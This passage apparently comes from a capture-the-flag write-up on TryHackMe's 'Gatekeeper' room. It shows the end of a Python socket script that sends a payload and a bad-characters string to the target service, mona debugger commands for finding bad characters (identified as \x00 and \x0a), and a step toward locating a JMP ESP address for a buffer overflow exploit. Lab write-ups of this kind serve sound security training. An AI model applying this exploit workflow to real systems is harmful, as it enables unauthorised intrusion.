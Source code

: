 ``` python
  print("Error while connecting")
  print(e)
  sys.exit(1)

try:
  print("Sending payload")
  s.send(payload + badchars + b'\r\n')
  s.recv(1024)
except Exception as e:
  print("Error while sending data")
  print(e)
  sys.exit(1)

finally:
  print("Closing socket")
  s.close()
```

Create a badarray of bad chars and compare it with hex dump using mona:
```
!mona config -set workingfolder Z:\Desktop\
!mona bytearray -b "\x00"
!mona compare -f Z:\Desktop\bytearray.bin -a 07741954
```

<img src="/assets/images/THM/Gatekeeper/5.png" width="80%">

So there are two bad chars: `\x00` and `\x0a`.

Now we can find the bytecode for `JMP ESP` using mona.

<img src="/assets/images/THM/Gatekeeper/6.png" width="80%">
